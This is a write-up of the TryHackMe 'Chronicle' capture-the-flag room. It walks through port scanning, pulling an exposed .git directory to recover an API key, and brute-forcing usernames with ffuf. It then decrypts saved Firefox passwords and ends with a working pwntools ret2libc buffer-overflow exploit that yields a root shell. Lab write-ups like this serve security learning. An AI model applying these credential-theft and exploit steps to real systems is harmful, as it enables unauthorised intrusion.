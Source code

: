 ```yaml
---
title: Chronicle Writeup
published: false
categories: writeups
tags: TryHackMe
challenge: https://tryhackme.com/room/chronicle
---
```

**Challenge link** => [{{ page.challenge }}]({{ page.challenge }})

Today, I'll try a *free* challenge from **0cirius0**

**0cirius0's [twitter](https://twitter.com/0cirius0)**

---
Alright so let's get started by deploying the VM attached to the room.

`nmap result : `
```sh
┌[Gal1leoHackingStation]─[14:27-18/04]─[/home/gal1leo/TryHackMe]
└╼root$nmap -sC -sV 10.10.84.208
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-18 14:27 IST
Nmap scan report for 10.10.84.208
Host is up (0.44s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b2:4c:49:da:7c:9a:3a:ba:6e:59:46:c2:a9:e6:a2:35 (RSA)
|   256 7a:3e:30:70:cf:32:a4:f2:0a:cb:2b:42:08:0c:19:bd (ECDSA)
|_  256 4f:35:e1:33:96:84:5d:e5:b3:75:7d:d8:32:18:e0:a8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8081/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Ok, cool. We've got `ssh` running on port `22` and an `apache` website on port `80`.
The website looks like a good place to start looking for clues.

![](/assets/images/2022-04-18_14-30.png)

When we visit the website, we see something that looks like *professional* web design.
My big brain decided that for some reason "OLD" was the name of a file on the server.

Going to `http://10.10.84.208/OLD` we find nothing useful

![](/assets/images/2022-04-18_14-34.png)

Going to the same url but we write "OLD" in lowercase `http://10.10.84.208/old` we find something more promising

![](/assets/images/2022-04-18_14-36.png)

Contents of note.txt: `Everything has been moved to new directory and the webapp has been deployed`

I moved into the `templates/` directory and start clicking random things hoping they do something <span style="color:red">**(Spoiler alert: they don't seem to be doing anything)**</span> Well, everything seems useless apart from the `Login` button which redirects you to `/login`.

I try going to `http://10.10.84.208/old/templates/login.html` and see something resembling a login form

![](/assets/images/2022-04-18_14-48.png)

I proceed to ~~create~~ attempt to create an account and it doesn't work. I see there's a reference to a page `/forgot.html` and decide to visit it.

![](/assets/images/2022-04-18_14-52.png)

*"Just enter your username below and we'll show you your password"*.
&nbsp;That sounds very convenient. But I don't know any users on this website. Tried `admin` and other guesses, and nothing showed up.

I start feeling like I'm digging into a rabbit hole, and decide to visit whatever is on port `8081` from the nmap output at the start.

![](/assets/images/2022-04-18_14-59.png)

You wouldn't believe it but it looks like an actual working website. Going to the `/forgot` page, we're still not receiving any output.

By inspecting the `POST` request in the Chrome `Network` tab, I realized there was some `api key` missing.

Looking around through the source code, we can see that the key was removed

![](/assets/images/2022-04-18_15-05.png)

Going back to the `/old` directory on port `80` I run a hidden directory scan to see if we ommitted anything

```sh
[Gal1leoHackingStation]─[15:14-18/04]─[/home/gal1leo/TryHackMe]
└╼root$ffuf -u http://10.10.84.208/old/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
Found the `.git` directory. Let's download it on out machine
```sh
┌[Gal1leoHackingStation]─[15:18-18/04]─[/home/gal1leo/TryHackMe]
└╼root$wget -r http://10.10.84.208:80/old/.git
```
running `git log` shows there was some commits done to this repo. Let's check them out. One of them actually leaks the api key.

![](/assets/images/2022-04-18_15-30.png)
 
 Alright, let's get to using it then. For this, I'll use `BurpSuite` so we can intercept the request; modify the api key and then forward it.

 ![](/assets/images/2022-04-18_15-37.png)
 ![](/assets/images/2022-04-18_15-39.png)

In an ideal word, everything would work out perfectly. But not in my world. The user `admin` doesn't exist on the website. Alright. I guess it's time to bruteforce a username. If you have time, you can try doing it with `Burp Suite`. I'll use `ffuf` instead.
```sh
ffuf -fw 2 -w /opt/SecLists/Usernames/Names/names.txt -X POST -d '{"key":"[REDACTED_BECAUSE_I_CAN]"}' -u http://10.10.84.208:8081/api/FUZZ
```
.. and we got a user: `tommy`

![](/assets/images/2022-04-18_15-51.png)

Thanks tommy. We won't use your account for malicious purposes. As I say this, I connect to the ssh server using the credentials we just got.

![](/assets/images/2022-04-18_15-56.png)

running `sudo -l` doesn't yield any results, so let's go exploring. There was nothing interesting to see, only **carlJ**'s home directory, which we were allowed to access. I saw .mozila in his home dir, and wanted to see if maybe we can dump some passwords from it.

I downloaded `https://github.com/unode/firefox_decrypt` on my machine, and downloaded `0ryxwn4c.default-release` from the ssh server.

![](/assets/images/2022-04-18_16-09.png)

ran 
```sh 
python3 /opt/firefox_decrypt/firefox_decrypt.py ./10.10.84.208:8000/0ryxwn4c.default-release/
```
and it asked for a Master password. Tried some basic passwords, and `password1` worked

![](/assets/images/2022-04-18_16-16.png)

Now that we got a password, let's try log in as `carlJ`. We go into the `~/mailing` folder, which we didn't have permission to access and found some sort of program and by the looks of it, we might be able to overflow it 😃.

![](/assets/images/2022-04-18_16-21.png)

Let's try a `ret2libc`

```sh
carlJ@incognito:~/mailing$ ldd smail 
	linux-vdso.so.1 (0x00007ffff7ffa000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff79e2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd3000)
```

So the address of libc is `0x00007ffff79e2000`. Let's also find out where `system` is so we can call it, and we'll also need to know the location of `/bin/sh`

![](/assets/images/2022-04-18_16-31.png)

exploit.py:
```py            
from pwn import *

p = process('./smail')

libc_base = 0x7ffff79e2000 
system = libc_base + 0x4f550
binsh= libc_base + 0x1b3e1a

POPRDI=0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(POPRDI)
payload += p64(binsh)
payload += p64(system)
payload += p64(0x0)

p.clean()
p.sendline("2")
p.clean()
p.sendline(payload)
p.interactive()

```

![](/assets/images/2022-04-18_16-37.png)

**Nothing was left unrooted**